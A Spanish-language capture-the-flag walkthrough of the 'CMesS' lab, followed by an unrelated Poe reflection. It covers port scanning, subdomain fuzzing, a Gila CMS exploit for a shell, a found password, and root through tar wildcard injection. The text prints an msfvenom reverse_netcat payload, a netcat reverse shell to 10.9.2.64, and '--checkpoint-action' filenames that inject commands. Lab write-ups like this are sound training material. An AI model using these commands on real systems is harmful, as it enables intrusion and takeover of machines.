# CMesS

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado varios puertos abiertos en el sistema: el puerto `22` para `ssh`, el `80` para el puerto `HTTP`.

<figure><figcaption></figcaption></figure>

Comenzamos con la web, ya que es el único puerto al que podemos acceder sin credenciales. En la web descubrimos que utiliza `GILA`, buscamos `exploits` pero no encontramos nada útil, y además, las páginas estaban llenas de directorios que no nos llevaban a ninguna parte.

<figure><figcaption></figcaption></figure>

Comenzamos a buscar nombres de `DNS` para ver si encontrábamos algo, y efectivamente, así fue como descubrimos una página repleta de correos y una contraseña para `andre@cmess.thm`.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host:FUZZ.cmess.thm" -fl 108
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


Una vez que logramos conectarnos a la página de `administración`, comenzamos la explotación para encontrar una forma de obtener una `shell` dentro del servidor. 

<figure><figcaption></figcaption></figure>


Buscamos un exploit y podemos utilizar el siguiente comando.

```
searchsploit gila 
```

Y deberían aparecer estos resultados; el primero es perfecto para encontrar una forma de acceder al servidor.

<figure><figcaption></figcaption></figure>

Para descargarlo, solo necesitamos utilizar el siguiente comando:

```
searchsploit -m php/webapps/51569.py
```

Lo ejecutamos con :

```
python3 51569.py
```

Y simplemente completamos los datos que se nos solicitan.

<figure><figcaption></figcaption></figure>

Con el oyente configurado en el puerto que especificamos, podemos obtener una `shell` en el servidor.

<figure><figcaption></figcaption></figure>

# \www-data

Después de realizar la enumeración con `linpeas.sh` y `pspy64`, nos damos cuenta de que en `pspy64` no hay ningún proceso en ejecución que podamos manipular. Sin embargo, al usar `linpeas.sh`, encontramos una copia de seguridad ubicada en `/opt`.

<figure><figcaption></figcaption></figure>

Aquí podemos encontrar la copia de seguridad de la contraseña de `andre`.

<figure><figcaption></figcaption></figure>


```
su andre
```

<figure><figcaption></figcaption></figure>

Ingresamos la contraseña que se encontró y logramos acceder, donde encontramos el archivo `user.txt`.


<figure><figcaption></figcaption></figure>

# \andre

Al realizar la enumeración de `www-data`, también observamos un proceso de `crontab` que guarda una copia de seguridad del directorio de `andre`. La línea correspondiente es la siguiente:

```
cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

<figure><figcaption></figcaption></figure>


Con un poco de investigación, podemos darnos cuenta de que se trata de un ataque relacionado con los comodines de `tar`.



*El nombre del ataque es Inyección de comodines, y es una forma de hacer que tar ejecute un ejecutable para nosotros. Dado que el servicio de copia de seguridad se ejecuta como root, si hacemos de este ejecutable un shell inverso, entonces obtenemos un shell root.*

Con `msfvenom`, podemos crear nuestro payload.

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.9.2.64 LPORT=4243 R
```

<figure><figcaption></figcaption></figure>

Ahora debemos dirigirnos a la carpeta donde se realiza la copia de seguridad de `andre` para implantar nuestro `payload`.

```
echo 'mkfifo /tmp/dcnvzdd; nc 10.9.2.64 4243 0</tmp/dcnvzdd | /bin/sh >/tmp/dcnvzdd 2>&1; rm /tmp/dcnvzdd' > shell.sh
```

Y creamos lo que los siguientes pasos:

```
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

```
echo "" > --checkpoint=1
```

<figure><figcaption></figcaption></figure>


Cuando `root` ejecute el comando `tar -zcf /tmp/andre_backup.tar.gz *`, obtendremos nuestra `shell` como `root` y el último archivo necesario para completar el laboratorio, `root.txt`.

<figure><figcaption></figcaption></figure>

----

>*No era lo que eran los demás. No vi lo que otros vieron, pero por eso, lo que amaba, amé solo.* ~ **Edgar Allan Poe**
>
>*Esto refleja el destino de un espíritu condenado a la soledad. Desde temprana edad,me di cuenta de que no compartía la misma visión que los mortales a mi alrededor. Mientras todos estaban cautivados por el brillo superficial de la vida, yo ofrecía mis umbrales, mis sombras y mis secretos más profundos. Esto me convirtió en un extraño entre los hombres, un exiliado de la normalidad.*
>
>*Lo que ellos consideraban hermoso me sonaba trivial, y lo que a mí me fascinaba, nadie se atrevía a contemplar. Así, el amor que llevaba dentro no era un coro de voces, sino un cántico solitario nacido de experiencias íntimas e intransmisibles.* 
>
>*Esa soledad no solo es dolorosa, sino también reveladora, un presagio que solo el fumador de opio comprende, perdido entre sueños y abismos. Porque amar es contemplar un mundo que existe solo para quien ha cruzado la sombra, y es allí donde florece la verdadera poesía. En el corazón que deambula entre mis umbrales, se encuentra la belleza en el aislamiento y el vértigo de la propia visión.*
>
><figure><figcaption></figcaption></figure>
